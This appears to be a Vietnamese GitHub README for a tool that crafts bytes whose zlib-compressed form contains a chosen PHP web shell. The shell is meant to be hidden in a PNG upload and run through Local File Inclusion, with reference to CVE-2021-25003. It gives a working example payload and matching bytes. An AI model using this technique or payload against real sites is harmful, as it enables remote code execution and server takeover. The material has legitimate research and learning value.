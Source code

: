 # control_zlib_compression

## Main
Chức năng của code là tạo ra một đoạn byte mà khi `zlib.compress()` sẽ tạo được một substring chứa `payload` mong muốn. 

`zlib.compress()` được dùng trong file png do đó ta có context sử dụng như sau:
- Upload file ảnh png có payload mong muốn ví dụ như `<?=$_GET[1]($_POST[2]);?>`.
- Local File Include file ảnh đó.

Ví dụ với context trên:

```python
import zlib

zlib.compress(b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P') 
# Kết quả: b'x\x9cc^<?=$_GET[1]($_POST[2]);?>\x00\x00hi\x070'. Có chứa '<?=$_GET[1]($_POST[2]);?>'
```

Hoặc là với context PoC của [CVE-2021-25003](https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a), có phần tìm một chuỗi hex khi compress sẽ chứa payload. Trong link thì tác giả không chỉ cách tìm ra chuỗi đó nên mình khá chật vật tìm hiểu để ~~chắp vá~~ viết ra code này.
![Oops](https://user-images.githubusercontent.com/91038460/209658753-5f66c4c3-f8af-4540-9929-31d55a990e85.png)

## Ý tưởng:
Vì zlib compression/decompression là quá trình không làm mất dữ liệu, nên nếu muốn tìm một đoạn byte mà compress ra đoạn code mong muốn thì mình sẽ decompress đoạn code đó để tìm đoạn byte. Do đó mình đi tìm hiểu về zlib compressed data format rồi cả cách implement quá trình decompression để theo ý muốn.

## Cách dùng:
Vào sửa biến `payload` rồi chạy code thôi 😉.
```Ruby
b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P'

Double check
Yeah 🙂
```

Nếu chương trình bị lỗi hoặc in ra `Constraint may be violated` hoặc `Take a rest 🤕` thì có thể là code đã không cover được hết trường hợp 😭.

Ngược lại, dòng đầu tiên chính là chuỗi byte mà ta cần 😁

## Lưu ý:
Không phải tất cả payload đều hoạt động được, ví dụ `<?=\`$_GET[1]\`;?>` sẽ gây ra lỗi.

Điều kiện để code gặp ít lỗi nhất (nhưng vẫn sẽ có lỗi 🥲), nếu không thì sẽ phải tự sửa lại tùy payload 😿
1. Không dùng quá nhiều loại ký tự khác nhau trong payload.
2. Dùng payload càng ngắn càng tốt.
3. Mỗi substring độ dài 3 sau khi decompress() không xuất hiện quá 1 lần (Để đảm bảo BTYPE luôn bằng 1).
4. Nên để terminate_symbol như vậy.

## ~~Chép code~~ Tham khảo:
- https://calmarius.net/index.php?lang=en&page=programming%2Fzlib_deflate_quick_reference: Đây là nơi mình đọc về format của compressed data.
- https://pyokagan.name/blog/2019-10-18-zlibinflate/. Đây là link mình đọc về thuật toán sử dụng trong `zlib.compress()` và cả chép code nữa. 🦫

## Ghi chú cho sau này:
- Cái cây cần dùng cho debug :)
![Oops](https://user-images.githubusercontent.com/91038460/209665780-a1483101-f2f8-4e34-a07e-ac95989c238a.png)
- Các phần được implement nhưng lại không dùng mà được để lại đề phòng sau này sẽ được comment là "# [skip me]"
- Điều kiện 1 được dùng để đảm bảo BTYPE không thể bằng 0.
- Điều kiện 2 được dùng để đảm bảo BTYPE không thể bằng 2.
- Điều kiện 3 được dùng để đảm bảo thuật toán LZ77 được dùng khi compress() không có tác dụng, do đó lúc decompress() cũng không có tác dụng.
- 27/12/2022: chỉ có 3 loại BTYPE 0, 1 và 2. Mình cố gắng để BTYPE = 1, 
      + là một giá trị cho phép hiệu quả về cả độ phức tạp và độ dài của payload và output.
      + mình cố gắng để BTYPE = 1 nhưng đoạn implement decompress() thì có cả code xử lý khi BTYPE = 0 hay 2 dùng để đề phòng cho sau này.
      + tương tự phần xử lý LZ77 ở trên cũng không có tác dụng nhưng sẽ được mình để lại.
